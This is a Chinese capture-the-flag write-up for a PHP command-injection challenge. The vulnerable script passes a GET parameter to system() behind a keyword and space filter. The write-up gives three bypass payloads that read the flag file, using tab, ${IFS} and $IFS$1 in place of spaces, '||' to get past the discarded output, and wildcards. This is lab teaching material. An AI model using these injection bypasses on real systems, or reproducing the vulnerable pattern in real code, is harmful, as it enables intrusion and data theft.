




```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

以及无输出


### 第一种

%09绕过空格

||绕过无输出

*匹配字符

```
?c=ls||
```



```
?c=tac%09fl*||
```




### 第二种

${IFS}绕过空格

```
?c=tac${IFS}fl*||
```




### 第三种

$IFS$1绕过空格

```
?c=tac$IFS$1fl*||
```

